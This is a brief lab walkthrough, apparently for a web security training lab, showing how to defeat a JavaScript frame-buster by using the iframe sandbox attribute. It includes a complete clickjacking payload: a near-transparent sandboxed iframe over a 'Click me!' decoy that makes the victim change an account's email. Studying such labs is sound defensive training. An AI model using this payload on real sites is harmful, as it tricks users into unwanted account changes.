 
# Clickjacking with a frame buster script

Frame buster or framekiller is a security mechanism to mitigate clickjacking attacks.

This lab is very similar to the previous one, but if you try to add the iframe doesn't work. In the iframe appear this message 'This page cannot be framed'.

This is because in the source code of the website you have a javascript code that deny this:

```js
if(top != self) { window.addEventListener("DOMContentLoaded", function() { document.body.innerHTML = 'This page cannot be framed'; }, false); }
```

But if we can load some policy that deny the execution of javascript code in the website. You can the attribute **sandbox** of iframe and use only the necessary.

The attribute sandbox start with minimal privilages by default.
Dont' allow to use:

- javscript code.
- Forms
- Browser out of the iframe
- Use local storage
- Start automatically downloads.

The form that send change the email doesn't use javascript, it's not necessary, in our exploit server we can try to load using this new attribute.

```html
<style>

iframe {
width: 100%;
height: 100%;
border: none;
opacity: 0.0001;
}

div {
position: absolute;
top: 450px;
left: 60px;
}

</style>

<div>Click me!</div>

<iframe sandbox="allow-forms" src="https://0af2009b0493bf2480a2035b002b00f3.web-security-academy.net/my-account?email=pwned@pwned.com"></iframe>
```

In this case we only allow `sandbox="allow-forms"` that allow the execution of forms in the iframe.
